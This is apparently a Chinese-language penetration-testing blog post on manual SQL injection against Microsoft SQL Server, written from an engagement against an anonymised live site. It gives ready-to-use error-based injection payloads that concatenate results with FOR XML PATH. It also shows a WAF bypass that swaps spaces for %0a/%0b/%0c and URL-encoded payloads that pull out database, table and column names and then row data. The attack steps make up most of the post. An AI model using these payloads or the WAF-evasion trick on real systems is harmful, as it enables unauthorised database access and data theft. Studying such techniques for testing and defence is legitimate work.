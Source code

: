 ```yaml
---
layout: post
title:  "SQL Server手工注入"
---
```

## 背景
某次xx，遇到了一处SQL Server 的注入点，由于平时碰到的SQL Server数据库比较少，所以本文将记录SQL Server的手工注入及其技巧，以便查阅。

## 思路
一般SQL注入都是先查库名再查表名最后查字段，查到字段之后就可以查到里面的数据了。
那么我们先查第一个库名:
```sql
SELECT top 1 Name FROM Master..SysDatabases
```
返回
<code>master</code>

这里返回的第一个数据库master是系统库，SQL Server总共有五个系统数据库，其说明如下:

|系统数据库|说明|
|---|---|
| <img width=300/> master |记录SQL Server 系统的所有系统级信息的数据库|
|msdb|SQL Server 代理用来安排警报和作业以及记录操作员信息的数据库。 msdb 还包含历史记录表，例如备份和还原历史记录表|
|model|在SQL Server 实例上为所有数据库创建的模板。|
|Resource|包含 SQL Server 2005 或更高版本附带的所有系统对象副本的只读数据库|
|tempdb|用于保存临时或中间结果集的工作空间。 每次启动 SQL Server 实例时都会重新创建此数据库。 服务器实例关闭时，将永久删除 tempdb 中的所有数据。|   

摘自  
<https://docs.microsoft.com/zh-cn/previous-versions/sql/sql-server-2012/ms190190(v=sql.110)>


那么我们继续查第二个库，在SQL Server中跟MYSQL不同，如果是在MYSQL中我们可以用 limit 去查，在SQL Server中需要加 not in ('库名1','库名2',.....)去排除里面的集合  

第二个库:  
```sql
SELECT top 1 Name FROM Master..SysDatabases where name not in ('master')
```
返回
```sql
model
```
那么以此类推，我们就可以得到所有库名。
但是如果后面的集合越来越大，这样去查并不是最有效率的，虽然说查库名可能没有感觉，但如果是表名呢？ 这样查到后面的集合无疑是越来越大，当然，我们在数据库中可以更改 top 后面的数值去查询多条:
```sql
SELECT top 5 Name FROM Master..SysDatabases
```
返回:

||Name|  
|---|---|  
|1|master|  
|2|tempdb|  
|3|model|  
|4|msdb|  
|5|xxx|  

实战的情况往往是不行的，因为用 top 去查返回的会是多行数据，而一般的注入点返回的只是单行，用这种方法返回的多个数据无法显示在单行，所以我们不能用这种方法去查。
在参考了倾旋的文章:  
<https://payloads.online/archivers/2020-03-02/3#stuff%E4%B8%8Exml-path>

还有国外的一篇文章:  
<https://www.sqlshack.com/for-xml-path-clause-in-sql-server/>

发现了可以用 FOR XML将SQL语句返回的多行数据合并成单行  
关于FOR XML的文档：  
<https://docs.microsoft.com/zh-cn/sql/relational-databases/xml/for-xml-sql-server?view=sql-server-ver15>  

>SELECT 查询将结果作为行集返回。 （可选操作）您可以通过在 SQL 查询中指定 FOR XML 子句，从而将该查询的正式结果作为 XML 来检索。 FOR XML 子句可以用在顶级查询和子查询中。 顶级 FOR XML 子句只能用在 SELECT 语句中。 而在子查询中，FOR XML 可以用在 INSERT、UPDATE 和 DELETE 语句中。 FOR XML 还可以用在赋值语句中。  

其中FOR XML有四种模式分别为
- RAW
- AUTO
- EXPLICIT
- PATH

这里我们可以用较为简单的PATH模式

```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH
```
返回
```xml
<row><Name>master</Name></row><row><Name>tempdb</Name></row><row><Name>model</Name></row><row><Name>msdb</Name></row>...
```

我们发现这里返回的数据变成了单行，现在我们要去掉row标签
```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH('')
```
返回
```xml
<Name>master</Name><Name>tempdb</Name><Name>model</Name>....
```
虽然说已经返回单行数据，但是有很多标签看着还是不舒服，参考了倾旋的方法，他是用
```sql
'['+name+'],'
```
这种方式进行拼接，我这里为了减少payload长度，直接用逗号进行拼接:
```sql
SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('')
```
返回
```sql
master,tempdb,model,msdb,...
```
这样会更方便查看。
关于STUFF函数：  
<https://docs.microsoft.com/zh-cn/sql/t-sql/functions/stuff-transact-sql?view=sql-server-ver15>

也可以通过STUFF函数进行拼接
```sql
SELECT STUFF((SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('') ), 1,0, '')
```
我在本地测试了下，用这种方式的返回和不加STUFF函数的结果是一样的，于是我在实测中便不采用这种方法。

## 实战

手工发现注入点,单引号报错:
```html
xxx.com?abc=1'
```

查版本：
```html
xxx.com?abc=a' and 1=(select @@version) and '1'='1
```
爆了版本的错误

于是接着注库名
```html
xxx.com?abc=a' and 1=(SELECT name+',' FROM(SELECT name from Master..SysDatabases)a FOR  XML PATH('')) and '1'='1
```
然后被waf给拦截了..
SQL Server数据库不像MYSQL有內联注释可以绕过很多软waf，所以考虑将payload变形，首先想到的是将特殊符号(单引号)进行urlencode，结果发现还是被拦截了，接着考虑将payload进行base64编码，结果发现这个注入点传递到数据库不支持base64编码。最后我将空格换成%0a,%0b，%0c等，成功绕过。
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0aMaster..SysDatabases)%0a%0aFOR%0a%0aXML%0aPATH(%27%27))a%0aand%0a%271%27=%271
```
成功返回库名
接着开始注表名,在SQL Server中查询表名的语句是:
```sql
SELECT name+',' FROM(SELECT name from xxx.sys.all_objects where type='U')a FOR  XML PATH('')
```
这里
```sql
xxx.sys.all_objects
```
'xxx'指的是数据库名，执行成功后返回xxx库的表名
那么我们运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0axxx.sys.all_objects%0awhere%0atype=%27U%27)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功返回表名

注字段名的语句，table指的是注出来的表名
```html
select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a FOR XML PATH('')
```
那么运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
```


接着注字段的值
```html
SELECT column_name+',' FROM(SELECT column_name from 数据库名.dbo.table_name)a FOR  XML PATH('')
```
这里column_name指的是字段名,table_name指的是表名，如果不指定数据库名就会查当前数据库
运用到实战
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn_name%2b%27,%27%0aFROM(SELECT%0acolumn_name%0afrom%0adbo.table_name)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功注出前五条数据
